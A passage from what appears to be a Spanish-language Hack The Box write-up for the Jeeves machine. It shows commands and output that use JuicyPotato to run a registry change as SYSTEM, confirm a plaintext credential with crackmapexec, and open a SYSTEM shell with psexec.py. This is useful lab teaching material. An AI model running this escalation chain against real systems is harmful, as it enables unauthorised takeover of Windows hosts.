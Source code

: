 ```bash
Global Group memberships     *None
The command completed successfully.


C:\Windows\Temp\Prives>
```

- Antes de validar con `crackmapexec` debemos hacer lo siguiente.

```bash
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Prives>
```

- Ahora validamos con **crackmapexec**.

```bash
❯ crackmapexec smb 10.10.10.63 -u 'miguel' -p 'miguel123$!'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\miguel:miguel123$! (Pwn3d!)
```

- Ahora nos podemos conectar con la contraseña que proporcionamos.

```bash
❯ psexec.py WORKGROUP/miguel@10.10.10.63 cmd.exe
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file TjCVyPZu.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service ntnX on 10.10.10.63.....
[*] Starting service ntnX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

## Extra
